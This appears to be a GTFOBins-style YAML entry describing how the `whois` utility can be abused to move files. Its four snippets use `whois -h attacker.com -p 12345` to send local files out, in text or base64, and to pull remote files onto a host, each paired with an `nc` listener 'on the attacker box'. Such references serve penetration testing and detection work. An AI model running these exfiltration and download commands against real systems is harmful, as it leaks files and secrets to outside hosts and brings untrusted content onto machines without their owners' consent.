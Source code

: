 ```yaml
---
description: "`whois` hangs waiting for the remote peer to close the socket.\n"
functions:
  upload:
  - description: Send a text file to a TCP port. Run `nc -l -p 12345 > "file_to_save"`
      on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'`
      and its length is limited by the maximum size of arguments.
    code: |
      RHOST=attacker.com
      RPORT=12345
      LFILE=file_to_send
      whois -h $RHOST -p $RPORT "`cat $LFILE`"
  - description: Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d'
      | base64 -d > "file_to_save"` on the attacker box to collect the file. The file
      length is limited by the maximum size of arguments.
    code: |
      RHOST=attacker.com
      RPORT=12345
      LFILE=file_to_send
      whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  download:
  - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 12345
      < "file_to_send"` on the attacker box to send the file. The file has instances
      of `$'\x0d'` stripped.
    code: |
      RHOST=attacker.com
      RPORT=12345
      LFILE=file_to_save
      whois -h $RHOST -p $RPORT > "$LFILE"
  - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send"
      | nc -l -p 12345` on the attacker box to send the file.
    code: |
      RHOST=attacker.com
      RPORT=12345
      LFILE=file_to_save
      whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
---
```

